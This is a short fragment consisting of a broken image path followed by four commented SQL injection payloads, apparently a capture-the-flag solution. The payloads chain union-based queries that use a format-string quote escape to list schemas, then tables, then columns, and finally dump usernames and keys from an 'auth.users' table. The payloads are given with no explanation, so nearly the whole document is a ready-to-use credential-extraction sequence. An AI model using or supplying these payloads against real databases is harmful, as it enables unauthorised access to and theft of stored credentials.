 // 1- %1$') or 1=1 union select schema_name,null,null from INFORMATION_SCHEMA.SCHEMATA;--
// 2- %1$') or 1=1 union select table_name,null,null from INFORMATION_SCHEMA.TABLES where table_schema=%1$'auth%1$';--
// 3- %1$') or 1=1 union select column_name,null,null from INFORMATION_SCHEMA.COLUMNS where table_name=%1$'users_erRP9T6C%1$';--
// 4- %1$') or 1=1 union select username,`key`,null from auth.users_erRP9T6C;--
